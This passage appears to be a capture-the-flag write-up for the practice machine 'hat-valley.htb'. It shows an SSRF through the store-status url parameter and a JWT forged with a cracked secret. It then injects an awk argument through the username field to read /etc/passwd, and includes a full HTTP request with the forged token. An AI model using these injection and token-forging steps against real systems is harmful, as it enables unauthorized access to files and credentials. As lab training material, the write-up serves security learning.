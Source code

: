 This will show us that ports `80`, `3002`, and `8080` are available

If we navigate to `http://hat-valley.htb/api/store-status?url="http://localhost:3002"`, we get access to the Expres API docs! 

---

What stands out is an `exec()` call in `/api/all-leave`
- the command runs `awk` on the provided `user`

`/api/all-leave` is expecting us to pass a `jwt`
- when passing a jwt, it has to be signed with a 'secret'
- if we remember from before, the secret for `christopher.jones` is `123beany123`

So let's encode `{"username": "/etc/passwd"}`
- we can use `https://jwt.io` to build it

When we break down our `jwt`, we'll be plugging in:
- `"awk '/" + user "/'"`

If we pass in `/etc/passwd` to `username`, we get:
```
awk: cmd. line:2: / /etc/passwd /
awk: cmd. line:2:                ^ unexpected newline or end of string
```


So that by itself will not work, it will trigger a syntax error!


How about passing `'/etc/passwd'` into `username`:
```
awk: cmd. line:2: //etc/passwd/
awk: cmd. line:2:              ^ unexpected newline or end of string
```

Another syntax error!


We need to put space between the `''`'s and the file we want to read
- If we run `awk '/' /etc/passwd '/'`, we get `unexpected newline` 
- So we'd want to run: `awk '//' /etc/passwd '/'`
    - In our local shell, we get a dump of the `/etc/passwd` file!
- So, we want to pass in `"/' /etc/passwd '"` for `username`

Here is our HTTP request
```
GET /api/all-leave HTTP/1.1
Host: hat-valley.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nICAgL2V0Yy9wYXNzd2QgICAnIiwiaWF0IjoxNTE2MjM5MDIyfQ.pR4XosqcFDQLADcwLKGNl1v8gmtjeAQnAyX2RCYhM1U
If-None-Match: W/"128-7fIu9LFpPaYjbQJw/tKgaVzge7M"
Connection: close
```
